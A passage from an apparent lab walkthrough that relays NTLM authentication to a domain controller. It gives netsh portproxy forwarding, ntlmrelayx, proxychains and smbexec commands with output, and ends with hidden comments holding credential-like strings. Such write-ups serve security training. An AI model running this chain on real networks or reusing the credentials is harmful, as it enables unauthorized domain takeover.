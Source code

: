 Should return nothing. <b>If you find (like me) that a service is still running on port 445, probably is due to a firewall port forwarding rule left active from other user (e.g using meterpreter port forward).</b> Check it out with:

    netsh interface portproxy show all
Check the clean up section on how to delete such rules.

At this point I set a portforwarding rule in PC-FILESRV01 to forward incoming SMB traffic to the agent, according to the previous listener we set.

    netsh interface portproxy add v4tov4 listenport=445 listenaddress=10.200.95.35 connectport=445 connectaddress=10.200.95.33

So the whole SMB flow we set up is:

    Incoming SMB request to PC-FILESRV01 --> FW rules forwards the request to ligolol agent (10.200.95.33) listener (445) --> the listener forward SMB request to our attacker machine

Now on our attacker machine starts the relay listener:

    impacket-ntlmrelayx -t smb://10.200.95.30 -smb2support -socks

In a while we should recive the request:

    *] SMBD-Thread-9 (process_request_thread): Received connection from 127.0.0.1, attacking target smb://10.200.95.30
    [-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
    [*] Authenticating against smb://10.200.95.30 as HOLOLIVE/SRV-ADMIN SUCCEED
    [*] SOCKS: Adding HOLOLIVE/SRV-ADMIN@10.200.95.30(445) to active SOCKS connection. Enjoy
    ...

Now we have an active socks on port 1080 that we can exploit. To intercat with this sock we can use proxychains. Change its configuration file at the end as follows:

    cat /etc/proxychains.conf  
    ...
    [ProxyList]
    # add proxy here ...
    # meanwile
    # defaults set to "tor"
    #socks4         127.0.0.1 9050
    socks4          127.0.0.1 1080

<b>Note that on Kali 2024.2 the defaul configuration file is /etc/proxychains4.conf and you need to renamed it</b>. 
Finally we can perform the last command, to get a shell inside the Domain controller:

    proxychains impacket-smbexec -no-pass HOLOLIVE/SRV-ADMIN@10.200.95.30

    [proxychains] config file found: /etc/proxychains.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    ...
    [proxychains] DLL init: proxychains-ng 4.17
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra
    

[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)